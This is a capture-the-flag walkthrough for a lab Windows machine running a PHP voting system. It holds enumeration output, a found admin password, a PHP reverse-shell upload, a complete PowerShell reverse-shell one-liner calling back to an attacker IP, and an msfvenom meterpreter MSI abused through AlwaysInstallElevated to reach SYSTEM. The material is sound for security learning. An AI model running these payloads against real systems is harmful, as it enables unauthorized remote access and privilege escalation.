

Target: 10.10.10.239

## Enumeration:

nmap
```
$ sudo nmap -sC -sV 10.10.10.239        

Nmap scan report for 10.10.10.239
Host is up (0.040s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   LDAPSearchReq, TerminalServer: 
|_    Host '10.10.14.11' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.10.239/FUZZ -ic  

images                  [Status: 301, Size: 338, Words: 22, Lines: 10]
Images                  [Status: 301, Size: 338, Words: 22, Lines: 10]
admin                   [Status: 301, Size: 337, Words: 22, Lines: 10]
plugins                 [Status: 301, Size: 339, Words: 22, Lines: 10]
includes                [Status: 301, Size: 340, Words: 22, Lines: 10]
dist                    [Status: 301, Size: 336, Words: 22, Lines: 10]
licenses                [Status: 403, Size: 421, Words: 37, Lines: 12]
IMAGES                  [Status: 301, Size: 338, Words: 22, Lines: 10]
Admin                   [Status: 301, Size: 337, Words: 22, Lines: 10]
Plugins                 [Status: 301, Size: 339, Words: 22, Lines: 10]
phpmyadmin              [Status: 403, Size: 302, Words: 22, Lines: 10]
webalizer               [Status: 403, Size: 302, Words: 22, Lines: 10]
con                     [Status: 403, Size: 302, Words: 22, Lines: 10]
Includes                [Status: 301, Size: 340, Words: 22, Lines: 10]
aux                     [Status: 403, Size: 302, Words: 22, Lines: 10]
```

checking 10.10.10.239


adding staging.love.htb to /etc/hosts
```
$ sudo vim /etc/hosts

10.10.10.239	staging.love.htb
```

checking staging.love.htb



checking beta


checking port 5000 that is 403 from the outside


Loot:

`admin:@LoveIsInTheAir!!!!`

### Findings:Looking for attack vectors

Login using found credentials. Upload a php reverse shell to gain access.


## Foothold:

testing credentials (Admin)


[Payload Link](https://www.revshells.com/PHP%20cmd?ip=10.10.10.10&port=9001&shell=cmd&encoding=cmd)

uploading a php reverse shell (Voters -> New -> image)


opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

accessing uploaded file in /images


invoking powershell command
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.11',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```
PS C:\xampp\htdocs\omrs\images> whoami

love\phoebe
```

```
PS C:\xampp\htdocs\omrs\images> cd C:\Users\Phoebe\Desktop

PS C:\Users\Phoebe\Desktop> type user.txt

<redacted>
```


## Priv Escalations:

enumerating with winpeas
```
<snip>
  [+] Checking AlwaysInstallElevated
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated
    AlwaysInstallElevated set to 1 in HKLM!
    AlwaysInstallElevated set to 1 in HKCU!
<snip>
```

creating a malicous .msi
```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<ip> lport=1234 -f msi -o 1.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of msi file: 159744 bytes
Saved as: rev.msi
```

Metasploit
```
$ msfconsole
```

opening a meterpreter session
```
use multi/handler
set LHOST tun0
set LPORT 1234
run
```

exploiting .msi
```
PS C:\Users\Phoebe\Desktop> msiexec /quiet /qn /i C:\Users\Phoebe\Desktop\rev.msi
```

```
meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

```
meterpreter > cd C:\Users\Administrator\Desktop

meterpreter > cat root.txt

<redacted>
```
